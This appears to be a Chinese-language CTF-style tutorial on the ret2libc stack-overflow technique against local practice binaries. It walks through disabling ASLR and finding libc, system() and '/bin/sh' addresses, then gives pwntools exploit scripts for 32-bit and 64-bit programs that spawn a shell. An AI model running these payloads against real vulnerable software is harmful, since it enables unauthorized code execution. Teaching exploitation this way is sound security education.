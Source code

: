 ```yaml
---
title: 'ret2libc'
date: '2023-08-18'
lastmod: '2023-08-18'
tags: ['PWN', 'Stack']
draft: false
summary: '标准 ROP 漏洞利用'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

ret2libc 基于 C 标准库中的 `system` 函数。该函数会执行传递给它的任何内容，这使其成为最佳攻击目标。libc 中的另一个内容是字符串 `/bin/sh`；如果你将此字符串传递给 `system` 函数，它会弹出一个 shell。

这就是它的全部内容——将 `/bin/sh` 作为参数传递给 `system`。

LINK

## 0x01 禁用 ASLR

首先，我们将禁用 ASLR。ASLR 随机化 libc 在内存中的地址，这意味着我们无法计算出 `system()` 和 `/bin/sh` 的位置。为了便于你理解一般理论，我们将从禁用它开始。

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## 0x02 手动利用

### 1x01 获取 libc 地址

幸运的是 Linux 有一个名为 `ldd` 的命令用于动态链接。如果我们用它来查看编译好的 ELF 文件，它会告诉我们它使用的库及其地址。

```bash
$ ldd vuln-32
	  linux-gate.so.1 (0xf7eda000)
	  libc.so.6 => /usr/lib32/libc.so.6 (0xf7c00000)
	  /lib/ld-linux.so.2 => /usr/lib/ld-linux.so.2 (0xf7edd000)
```

`libc.so.6` 是我们需要的 libc 文件，所以 libc 的地址是 `0xf7c00000`。

<Note>
  `libc` 地址以及 `system()` 和 `/bin/sh` 的偏移量对你来说可能不同。这不是问题，它只是意味着你有不同的版本的 `libc`。
</Note>

### 1x02 获取 system() 的地址

为了调用 `system()`，我们肯定需要它在内存中的地址。为此，我们可以使用 `readelf` 命令。

```bash
$ readelf -s /usr/lib32/libc.so.6 | grep system
  3209: 0004f610    63 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```

`-s` 参数告诉 `readelf` 查看当前 ELF 文件的符号表，符号表中的信息只包括 **全局变量和函数名**。这里我们可以发现 `system()` 距 `libc` 库的偏移量是 `0x4f610`。

### 1x03 获取 /bin/sh 的地址

由于 `/bin/sh` 只是一个字符串，因此我们可以在刚刚通过 `ldd` 找到的动态链接库的基础上使用 `strings` 指令。

<Important>
  当将字符串作为参数传递时，你需要传递指向字符串的 **地址**，而不是字符串的十六进制表示形式，因为这就是 C 语言所规定的方式。
</Important>

```bash
$ strings -a -t x /usr/lib32/libc.so.6 | grep /bin/sh
  1c4dcd /bin/sh
```

`-a` 告诉它扫描整个文件；`-t x` 告诉它以十六进制格式输出偏移量。

### 1x04 32-bit 漏洞利用

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-32')

libc_addr = 0xf7c00000
system_addr = libc_addr + 0x4f610
shell_addr = libc_addr + 0x1c4dcd

payload = b'A' * 76          # Padding 到 EIP
payload += p32(system_addr)  # system() 的地址
payload += p32(0x0)          # 避免异常
payload += p32(shell_addr)   # /bin/sh 的地址

p.sendline(payload)

p.interactive()
```

### 1x05 64-bit 漏洞利用

使用链接到 64-bit 程序的 `libc` 重复上述过程。

<Important>
  你必须使用 `pop rdi; ret` gadget 将其放入 RDI 寄存器中，而不是在返回地址之后传递参数。
</Important>

```bash
$ ROPgadget --binary vuln-64 | grep rdi
[...]
0x00000000004011cb : pop rdi ; ret
[...]
$ ROPgadget --binary vuln-64 | grep rsi
[...]
0x00000000004011c9 : pop rsi ; pop r15 ; ret
[...]
```

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-64')

libc_addr = 0x7ffff7c00000
system_addr = libc_addr + 0x4f760
shell_addr = libc_addr + 0x19fe34

POP_RDI, POP_RSI_R15 = 0x4011cb, 0x4011c9

payload = b'A' * 72          # Padding 到 RIP
payload += p64(POP_RDI)      # pop rdi ; ret
payload += p64(shell_addr)   # 传入 /bin/sh 的地址
payload += p64(POP_RSI_R15)  # pop rsi ; pop r15 ; ret
payload += p64(0x0) * 2      # 填充 rsi 和 r15
payload += p64(system_addr)  # 把 system() 的地址传入 RIP

p.sendline(payload)

p.interactive()
```

## 0x03 使用 pwntools 实现半自动

pwntools 拥有大量功能，使这一切变得更加简单。

```python:exp.py
# 32-bit
from pwn import *

context(os='linux', arch='amd64', log_level='info')

elf = context.binary = ELF('./vuln-32')
p = process()

libc = elf.libc                             # 获取程序正在使用的 libc
libc.address = 0xf7c00000                   # 设置 libc 地址

system_addr = libc.sym['system']            # 获取 system() 的地址
shell_addr = next(libc.search(b'/bin/sh'))  # 获取 /bin/sh 的地址

payload = b'A' * 76                         # Padding 到 EIP
payload += p32(system_addr)                 # system() 的地址
payload += p32(0x0)                         # 避免异常
payload += p32(shell_addr)                  # /bin/sh 的地址

p.sendline(payload)

p.interactive()
```

64-bit 的半自动脚本本质上是一样的。

<Tip>
  如果题目提供了 libc ，也可以这样用：

  libc = ELF('libc.so.6')<br />
  print(libc.sym['system'])
</Tip>

<Note>
  pwntools 可以通过其 ROP 功能进一步简化它，但我不会在这里展示它们。
</Note>


